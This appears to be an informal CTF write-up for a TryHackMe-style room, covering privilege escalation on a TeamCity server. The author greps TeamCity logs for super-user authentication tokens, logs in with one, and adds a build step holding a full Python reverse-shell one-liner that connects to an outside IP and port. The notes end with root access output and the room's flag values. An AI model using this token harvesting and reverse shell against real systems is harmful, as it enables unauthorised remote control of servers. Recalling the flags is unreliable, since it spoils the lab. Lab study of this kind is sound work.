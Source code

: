 
we use 

```
ys-internal@vulnnet-internal:/TeamCity$ cat /TeamCity/logs/catalina.out | grep token


[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8912911422753064824 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8912911422753064824 (use empty username with the token as the password to access the server)

```

- this worked
```
[TeamCity] Super user authentication token: 8912911422753064824 (use empty username with the
```

- writeup
Now we have access as the superuser, and we can simply go create a new project > build configuration > build step and add a python script for getting a reverse shell.

got stuck here will try again tomorrow


- this command for python was not working
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.24.189",9992));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

https://www.youtube.com/watch?v=xKfTMWATNPM

used this for reference

- changed to
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.24.189",9992));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

saving was taking very long time

- got a shell

```
# id
uid=0(root) gid=0(root) groups=0(root)
```

- the flags
```
# cat root.txt
THM{e8996faea46df09dba5676dd271c60bd}
```

```
   │   ~/De/THM/internal/rsync/sys-internal ▓▒░ cat user.txt                                                              ░▒▓ ✔ │ 02:51:47   
THM{da7c20696831f253e0afaca8b83c07ab}
```